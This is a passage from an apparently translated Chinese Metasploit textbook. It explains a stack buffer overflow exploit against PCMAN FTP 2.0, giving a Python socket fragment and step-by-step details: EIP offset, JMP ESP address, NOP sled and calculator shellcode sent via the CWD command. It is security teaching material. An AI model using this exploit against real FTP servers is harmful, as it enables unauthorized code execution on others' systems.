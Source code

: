 ```
conn.connect((host,21))
conn.send('USER '+fuser+'\r\n')
uf = conn.recv(1024)
conn.send('PASS '+fpass+'\r\n')
pf = conn.recv(1024)
conn.send('CWD '+sploit+'\r\n')
cf = conn.recv(1024)
conn.close()

```

此直接攻击使用匿名凭据登录到端口`21`上的 PCMAN FTP 2.0 软件，并使用`CWD`命令攻击该软件。

有关构建漏洞、将其导入 Metasploit 以及绕过现代软件保护的更多信息，请参阅*Nipun Jaswal 撰写的*精通 Metasploit 第一版和第二版*的*第 2-4*章。*

前面列出的利用漏洞的整个过程可分为以下几点：

1.  在`fuser`、`pass`和`host`变量中存储用户名、密码和主机。
2.  为变量`junk`分配`2008 A`字符。这里，`2008`是覆盖 EIP 的偏移量。
3.  将 JMP ESP 地址分配给`espaddress`变量。这里，`espaddress 0x71ab9372`是目标返回地址。
4.  将 10 个 NOP 存储到变量`nops`中。
5.  将用于执行计算器的有效载荷存储在变量`shellcode`中。
6.  连接`junk`、`espaddress`、`nops`和`shellcode`并将其存储在`sploit`变量中。
7.  使用`s.socket(s.AF_INET,s.SOCK_STREAM)`设置插座，并使用`port 21`上的 connect（`host`、`21`）连接到主机。
8.  使用`USER`和`PASS`提供`fuser`和`fpass`成功登录目标。
9.  发出`CWD`命令，后跟`sploit`变量。这将导致堆栈上的返回地址被覆盖，从而使我们能够控制 EIP，并最终执行计算器应用程序。

在[上了解更多有关堆栈溢出漏洞背后的剖析 https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/](https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/) 。

让我们尝试执行利用漏洞攻击并按如下方式分析结果：

![](img/00137.jpeg)

最初的攻击从命令行获取用户名、密码和主机。但是，我们用固定的硬编码值修改了机制。

一旦我们执行攻击，将显示以下屏幕：
